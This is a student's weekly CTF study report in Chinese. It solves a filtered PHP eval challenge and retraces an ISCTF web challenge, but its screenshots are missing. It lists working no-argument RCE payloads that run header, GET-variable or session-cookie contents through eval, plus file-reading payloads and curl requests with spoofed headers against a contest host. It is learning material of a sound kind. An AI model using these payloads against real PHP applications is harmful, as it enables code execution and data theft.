








ok啊，第一周也是不知道该干啥，干脆把面试题弄了弄，从面试题里拆了点知识点学

## 面试题

```php
<?php
include "flag.php";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
```

这道题的意思就是让我们构造 payload 来读取 flag.php，其中有三关

1.

```
!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])
```

这个是 php 伪协议的过滤，也就是说这第一关可能是让我们绕过这些，那么就需要知道除了这些还有哪些 php 的伪协议

- **file://**：用于访问本地文件系统，可以读取本地文件，不受 *allow_url_fopen* 和 *allow_url_include* 的影响。
- **php://**：访问各种输入/输出流，常用的有 *php://input* 用于执行 PHP 代码，*php://filter* 用于读取源码。
- **http:// 和 https://**：通过 HTTP 或 HTTPS 协议访问网络资源，通常用于远程文件包含。
- **zip://、bzip2:// 和 zlib://**：访问压缩文件中的子文件，不需要指定后缀名，可以用于任意文件读取。
- **data://**：自 PHP 5.2.0 起，可以使用 *data://* 数据流封装器传递相应格式的数据，通常用于执行 PHP 代码。

这些是常用的 php 伪协议，除去那些被过滤掉的，剩下的对于解题也没有帮助，于是选择先看第二关。

2.

```
';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])
```

这是一个正则函数表达式，想要解这关，就一定要看懂代码，首先是 `/[a-z,_]+\((?R)?\)/`，`[a-z,_]+` 的意思是函数名只能由小写字母、下划线、逗号组成，`(?R)` 是一个 PCRE 的递归语法，表示在当前位置再次调用整个正则表达式本身，而后面继续跟了一个 `?`，表示括号里还可以再嵌套同样的函数调用，并将这些替换为空，直到最后只剩一个 `;`，也就是只允许零参函数调用嵌套，全局只能有一条语句。

3.

```
!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])
```

这第三关过滤了编码也就是不能使用这些编码语言

那么结合分析一下，此题考查的应该是 php 无参 RCE，在浏览器搜索相关信息，我们找到了此类题目的常见解决方法



对其进行小小修改，我们便构造了 payload

```
?exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

### 知识点

#### 1. php 伪协议

- **file://**：用于访问本地文件系统，可以读取本地文件，不受 *allow_url_fopen* 和 *allow_url_include* 的影响。
- **php://**：访问各种输入/输出流，常用的有 *php://input* 用于执行 PHP 代码，*php://filter* 用于读取源码。
- **http:// 和 https://**：通过 HTTP 或 HTTPS 协议访问网络资源，通常用于远程文件包含。
- **zip://、bzip2:// 和 zlib://**：访问压缩文件中的子文件，不需要指定后缀名，可以用于任意文件读取。
- **data://**：自 PHP 5.2.0 起，可以使用 *data://* 数据流封装器传递相应格式的数据，通常用于执行 PHP 代码。

#### 2. 正则表达式

- `preg_match` 是 PHP 中用于执行正则表达式匹配的函数
- `preg_replace` 函数执行一个正则表达式的搜索和替换
- `!` 表示反
- `[a-z,_]+`：函数名只能由小写字母、下划线、逗号组成
- `\(`：左括号
- `(?R)?`：递归匹配整个正则，表示括号里还可以再嵌套同样的函数调用；`?` 表示可以为空
- `\)`：右括号

#### 3. php 无参 RCE

- 无参数 RCE（Remote Code Execution）是一种通过仅使用无参数函数实现命令执行的技术，常见于 CTF 比赛中。这种技术的核心在于代码中限制了函数参数的使用，仅允许无参数函数执行。
- 常见解决方法

1. 使用 scandir() 和 localeconv()

*scandir()* 可列出目录中的文件，而 *localeconv()* 返回的数组中第一个元素为 `.`，表示当前目录。结合 *current()* 函数，可以构造如下 payload：

```
?code=print_r(scandir(current(localeconv())));
```

此代码将列出当前目录的所有文件。如果需要读取特定文件（如 *flag.php*），可以使用 *array_reverse()* 翻转数组，再用 *next()* 定位目标文件：

```
?code=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

2. 使用 getallheaders()

*getallheaders()* 返回 HTTP 请求头信息，可通过 *end()* 获取最后一个请求头的值并执行：

```
?code=eval(end(getallheaders()));
```

在请求头中添加恶意代码，例如 *X-Test: phpinfo();*，即可执行。

3. 使用 get_defined_vars()

*get_defined_vars()* 返回所有已定义变量的数组。通过 *current()* 提取 *$_GET* 参数，再用 *end()* 获取最后一个值并执行：

```
?code=eval(end(current(get_defined_vars())));&shell=phpinfo();
```

4. 使用 session_id()

*session_id()* 可读取 *PHPSESSID* 的值。将恶意代码转换为十六进制后存入 *PHPSESSID*，再用 *hex2bin()* 解码并执行：

```
?code=eval(hex2bin(session_id(session_start())));
```

例如，将 *phpinfo();* 转为十六进制 *706870696e666f28293b*，并设置 Cookie：*PHPSESSID=706870696e666f28293b*。

5. 目录遍历与文件读取

通过 *getcwd()* 获取当前目录，结合 *dirname()* 和 *scandir()* 遍历上级目录，再用 *highlight_file()* 读取文件：

```
?code=highlight_file(array_rand(array_flip(scandir(dirname(getcwd())))));
```

## ISCTF 比赛题

实际上我只写了一道，因为比赛那天我也有一场羽毛球的比赛，虽然一轮游了。。。

那么在我写这个周报的时候，我发现一个很严重的问题



我应该怎么复现。。所以我用一个新号来复现了

### 复现过程

先看题面


那么我们就先去看看 robots.txt 协议

*name



拿到信息后，我们应该读取所给地址信息，于是我向 /api/healthcheck 发送访问请求

```
curl -i http://110.42.47.164:32037/api/healthcheck
```

返回



于是发个空请求，看错误信息



也就是说我们需要拿到 /vip-daycare 页面源码，依旧发请求看原始响应

```
curl -i -L http://110.42.47.164:32037/vip-daycare
```



下一步我们就需要利用 Referer 和 UtopiaHealthScanner 发请求

```
curl -s -X POST "http://110.42.47.164:32037/api/healthcheck" 
  -H "Referer: http://110.42.47.164:32037/vip-daycare" 
  -A "UtopiaHealthScanner"
```

返回



我们拿到了取件地址 `"next_target_path":"vip-daycare-preview-7f2a91"`

以及凭证 `"next_target_token":"E4phfGgFT1E3-sqCWyR-oATUz2rDXup2JtNsE8yydMU"`

但实际过程中我的失误导致凭证过期了，于是重新拿凭证再重新取件



最终拿到 flag

这周干的可能有点少，但是我会继续的

QAQ
